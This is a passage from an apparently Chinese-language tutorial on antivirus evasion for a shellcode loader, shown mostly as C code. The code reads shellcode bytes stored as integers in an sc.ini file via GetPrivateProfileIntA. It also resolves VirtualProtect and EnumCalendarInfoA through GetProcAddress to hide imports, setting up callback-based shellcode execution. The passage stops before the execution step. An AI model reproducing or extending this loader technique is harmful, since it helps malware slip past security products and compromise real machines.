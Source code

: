 ```php
unsigned int bt[3000];
char buf[3000];
for (int i = 0; i < 3000; i++) {
    _itoa_s(i, buf, 10);
    UINT k = GetFileIntA("key",buf, NULL, PATH);
    bt[i] = k;
}
```

\_itoa\_s和itoa是一样的，只不过在vs中用itoa会报错，要用\_itoa\_s,  
其中GetFileIntA是我们之前typedef定义的

```php
typedef UINT(WINAPI* GetfileInt)(
    LPCSTR          LPAPPNAME,
    LPCSTR          KEYNAME,
    INT             DEFINE,
    LPCSTR          FILENAME
    );
GetfileInt GetFileIntA = (GetfileInt)GetFuncAddr(
    GetModuleHandleA("kernel32.dll"),
    "GetPrivateProfileIntA"
);

```

这里为什么用到itoa函数，是因为GetPrivateProfileIntA的参数是LPCSTR类型（其实就是我们熟悉的char\*),在上面我们生成的sc.ini文件是1=1098这种类型的，所以传入的参数得一一对应，传入“1“即可获取1098这个值，所以我们直接利用itoa把1变成“1“，这样就方便了许多，利用for循环把shellcode放入bt这个数组里

拿到shellcode后，接下来就是前面提到过的UAF（对免杀有没有帮助这个我不知道，既然学到了，那就用上呗）

```php
typedef BOOL(WINAPI* EnumInfo)(
    CALINFO_ENUMPROCA   proc,
    LCID                Eocale,
    CALID               Calender,
    CALTYPE             Type
    );

typedef BOOL(WINAPI* Exchange_)(
    LPVOID      lpAddress,
    SIZE_T      DWsIZE,
    DWORD       New,
    PDWORD      Old
    );

typedef FARPROC(WINAPI* GetFuncAddr_)(
    HMODULE hmod,
    LPCSTR  lpName
    );

GetFuncAddr_ GetFuncAddr = (GetFuncAddr_)GetProcAddress(
    GetModuleHandleA("Kernel32.dll"),
    "GetProcAddress"
);

Exchange_ exchange_ = (Exchange_)GetFuncAddr(
    GetModuleHandleA("kernel32.dll"),
    "VirtualProtect"
);

EnumInfo EnumInfoA = (EnumInfo)GetFuncAddr(
    GetModuleHandleA("Kernel32.dll"),
    "EnumCalendarInfoA"
    );

```